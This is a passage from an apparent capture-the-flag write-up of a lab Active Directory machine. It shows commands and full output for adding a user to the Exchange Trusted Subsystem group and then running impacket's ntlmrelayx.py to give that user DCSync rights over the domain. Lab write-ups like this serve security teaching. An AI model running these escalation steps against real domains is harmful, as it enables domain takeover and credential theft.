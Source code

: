     C:\Users\svc-alfresco\Documents>net group "EXCHANGE TRUSTED SUBSYSTEM"
    net group "EXCHANGE TRUSTED SUBSYSTEM"
    Group name     Exchange Trusted Subsystem
    Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Exchange configuration, as well as user accounts and groups. This group should not be deleted.

    Members

    -------------------------------------------------------------------------------
    EXCH01$                  sol                      svc-alfresco
    The command completed successfully.


    C:\Users\svc-alfresco\Documents>net group "EXCHANGE TRUSTED SUBSYSTEM" created_01 /add
    net group "EXCHANGE TRUSTED SUBSYSTEM" created_01 /add
    The command completed successfully.

We then launch [impacket's ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/)
with the `escalate-user` parameter. We try it by authenticating in our browser on 127.0.0.1.

    :::text
    ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user created_01
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [*] Protocol Client SMTP loaded..
    [*] Protocol Client SMB loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server

    [*] Servers started, waiting for connections
    [*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
    [*] HTTPD: Client requested path: /
    [*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
    [*] HTTPD: Client requested path: /
    [*] HTTPD: Client requested path: /
    [*] Authenticating against ldap://10.10.10.161 as \created_01 SUCCEED
    [*] Enumerating relayed user's privileges. This may take a while on large domains
    [*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
    [*] HTTPD: Client requested path: /favicon.ico
    [*] HTTPD: Client requested path: /favicon.ico
    [*] HTTPD: Client requested path: /favicon.ico
    [*] User privileges found: Create user
    [*] User privileges found: Modifying domain ACL
    [*] Querying domain security descriptor
    [*] Success! User created_01 now has Replication-Get-Changes-All privileges on the domain
    [*] Try using DCSync with secretsdump.py and this user :)
    [*] Saved restore state to aclpwn-20191105-184250.restore
    [*] Authenticating against ldap://10.10.10.161 as \created_01 SUCCEED
    [*] Enumerating relayed user's privileges. This may take a while on large domains
    [-] Exception in HTTP request handler: [Errno 32] Broken pipe
    [-] [Errno 32] Broken pipe
    [*] User privileges found: Create user
    [*] User privileges found: Modifying domain ACL
    [-] ACL attack already performed. Refusing to continue
